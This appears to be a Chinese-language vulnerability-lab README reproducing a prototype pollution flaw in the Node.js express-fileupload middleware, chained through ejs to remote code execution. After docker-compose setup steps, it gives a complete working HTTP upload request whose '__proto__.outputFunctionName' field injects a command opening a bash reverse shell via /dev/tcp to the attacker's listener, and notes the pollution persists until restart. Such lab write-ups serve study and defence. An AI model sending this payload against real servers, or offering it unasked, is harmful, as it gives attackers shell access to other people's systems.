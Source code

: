 # NodeJS expresss-fileupload模块原型链污染漏洞（CVE-2022-7699）

## 漏洞原理

`express-fileupload`是用来处理上传文件的中间件，在`1.1.7-alpha.4`及以前的版本存在原型链污染漏洞，利用该漏洞我们可以在`ejs(<=3.1.6)`中找到利用链从而造成远程代码执行。

参考链接：

- https://blog.p6.is/Real-World-JS-1/
- https://www.leavesongs.com/PENETRATION/javascript-prototype-pollution-attack.html

## 环境搭建

编译及运行环境：

```bash
docker-compose build
docker-compose up -d
```

## 漏洞复现

成功运行后，访问`http://your-ip:3000/`即可查看。

![img](1.png)

首先在本机开启端口监听，之后发送如下数据包，即可成功反弹shell。

```text
POST /upload HTTP/1.1
Host: Host: your-ip:3000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.150 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Connection: close
Content-Length: 306
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarypDa6OHB96f0GI9ze

------WebKitFormBoundarypDa6OHB96f0GI9ze
Content-Disposition: form-data; name="__proto__.outputFunctionName"

x;process.mainModule.require('child_process').exec('bash -c "bash -i &> /dev/tcp/your-ip/4444 0>&1"');delete Object.prototype['outputFunctionName'];x
------WebKitFormBoundarypDa6OHB96f0GI9ze--
```

PS：发送攻击后，会污染整个程序的原型链。之后正常的访问页面也会有影响，除非重启整个程序。所以需要删除污染的原型。
